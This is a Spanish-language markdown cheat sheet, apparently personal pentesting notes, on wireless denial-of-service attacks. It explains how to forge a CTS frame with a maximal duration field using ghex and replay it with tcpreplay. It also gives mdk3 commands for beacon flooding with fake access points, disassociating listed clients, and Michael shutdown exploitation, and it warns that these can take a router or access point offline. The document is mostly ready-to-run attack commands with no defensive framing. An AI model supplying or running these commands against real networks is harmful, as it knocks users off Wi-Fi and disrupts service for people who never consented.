






---

# CTS FRAME ATTACK

***PUEDE APAGAR EL ROUTER Y AFECTAR A LA DISPONIBILIDAD***

**ES NECESARIO MODIFICAR EL ATRIBUTO wlan.duration DE UN FRAME `wlan.fc.type_subtype==28` HACIENDO USO DE LA HERRAMIENTA ghex**

Haciendo uso de una captura existente desde whireshark, exportamos solo el paquete con el
wlan.duration que deseemos



Una vez exportado el frame unico que deseamos, es necesario modificar parte del frame usando el editor `ghex`



el `wlan.duration` está en little-endian. por lo que el valor esta invertido.

Modificamos con `ghex` el `wlan.duration` y la MAC para que sean el valos maximo y la mac del target.







Que al estar en little endian hay que dar la vuelta a los numeros del wlan.duration.
Ahora que está listo el paquete, se puede realizar el ataque con:

```
Tcpreplay --intf1=wlan0mon --topspeed --loop=10000 <archivo pcap>
```

---

# BEACON FLOOD MODE

PARA ENUMERAR BEACONS:

```
Tshark -i wlan0mon -y "wlan.fc.type_subtype==0x08" 2>/dev/null + airodump-ng wlan0mon
```



GENERAMOS UNA WORDLIST CON LOS NOMBRES DE LOS AP FALSOS QUE QUEREMOS DESPLEGAR. UTILIZADO PARA SATURAR UN CANAL.

```
mdk3 wlan0mon b -f <wlist AP falsos>
```

TAMBIEN ES POSIBLE RELIZAR EL ATAQUE SIN CREAR UN DICCIONARIO, PARA CREAR MULTIPLES AP DE FORMA ALEATORIA CON:
```
Mdk3 wlan0mon b -c <n canal>
```

---

# DISASSOCIATION AMOK MODE


UTILIZADO PARA DESAUTENTICAR UNO O VARIOS USUARIOS DE UN LISTADO DE MACS.

```
mdk3 wlan0mon d -w <listado MACs> -c 7
```


---

# MICHAELSHUTDOWN EXPLOITATION

```
mdk3 wlan0mon m -t <MAC AP>
```

*PUEDE APAGAR EL AP O ROUTER*


